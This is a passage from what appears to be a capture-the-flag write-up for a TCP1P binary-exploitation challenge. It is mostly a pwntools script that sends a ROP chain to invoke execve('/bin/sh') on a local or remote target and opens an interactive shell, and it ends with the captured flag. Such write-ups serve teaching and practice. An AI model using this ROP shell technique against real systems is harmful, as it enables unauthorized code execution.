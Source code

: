 ```python
    # $rsi = &anu+8
    # $rdx = 0x300
    io.send(p) # sys_read(0, &anu+8, 0x300)

    sleep(1)

    # sys_execve('/bin/sh', NULL, NULL)
    p = b""
    p += b"/bin/sh\x00" # anu+8
    p += p64(SYSCALL_RET+2)*50 # retsled: "syscall; ret;" +2 == "ret"
    p += p64(POP_RAX_RDX_RBX)
    p += p64(0x3b)
    p += p64(0)
    p += p64(0)
    p += p64(POP_RDI)
    p += p64(elf.symbols["anu"]+8) # "/bin/sh"
    p += p64(POP_RSI)
    p += p64(0)
    p += p64(SYSCALL_RET)
    io.send(p)
    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

![PWN3D](images/7603442d4c5302eeae8e1ce5cf9533aa896cffcbc5ec7be70a18043339a97099.png)  

    
**Flag:** TCP1P{ju5T_4n0tH3r_p1vOt_ch4LlEn9e}